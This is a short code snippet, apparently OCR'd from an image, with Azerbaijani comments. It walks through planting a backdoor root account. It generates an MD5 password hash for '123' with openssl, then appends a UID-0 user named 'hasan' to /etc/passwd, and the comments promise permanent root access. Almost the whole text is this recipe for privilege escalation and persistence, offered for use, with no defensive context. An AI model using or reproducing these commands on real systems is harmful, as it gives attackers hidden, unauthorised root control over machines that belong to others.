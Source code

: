     nano  /etc/passwd  
 ## hissesine elave etsen sen hemise root kimi usere daxil olacaqsan 
      openssl passwd -1  -salt hasan
   ## parol 123
       nano /etc/passwd
       hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash 
      
   
 


  
   ## sen artiq ROOT'SAN
